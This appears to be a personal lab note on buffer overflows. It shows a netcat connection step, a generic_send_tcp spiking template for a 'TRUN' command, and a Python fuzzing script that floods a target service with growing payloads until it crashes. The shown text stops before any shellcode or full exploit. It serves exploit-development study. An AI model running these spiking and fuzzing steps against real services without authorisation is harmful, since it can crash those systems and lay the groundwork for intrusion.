 ```yaml
---
title: BUFFER OVERFLOWS
updated: 2023-10-23 06:12:43Z
created: 2023-09-29 02:49:56Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```



STEP1: connect to service uing Netacat
`nc <targetip> <port>`

# BUFFER OVERFLOWS with TRUN

## SPIKING (eg using command TRUN)

`generic_send_tcp targetip port TRUN.spk 0 0`

//file-contents of **TRUN.spk**

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

* * *

## FUZZING

`./trun_fuzz.py`

```
#!/usr/bin/python3
import sys, socket
from time import sleep
buffer = "A" * 100
while True:
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('<targetIP>',<port>))
                payload = "TRUN /.:/" + buffer
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A"*100
        except:
                print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
                sys.exit()
```

